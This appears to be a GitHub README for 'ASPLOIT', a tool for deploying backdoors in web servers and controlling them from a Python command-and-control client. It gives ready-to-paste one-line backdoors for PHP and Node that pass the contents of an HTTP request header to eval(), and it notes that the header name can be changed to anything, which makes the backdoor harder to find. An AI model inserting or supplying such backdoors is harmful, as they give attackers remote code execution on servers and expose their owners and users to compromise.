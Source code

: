 # ASPLOIT
This tool allows you to deploy and exploit backdoors with one line of code in Node and PHP servers.

# Backdoor
## PHP
Add the following line of PHP to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Command and Controller
The C2 runs on Python. To start, run `main.py` in at in the `src` folder.

# Creating Custom Backdoors/Exploits
Coming soon.


# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).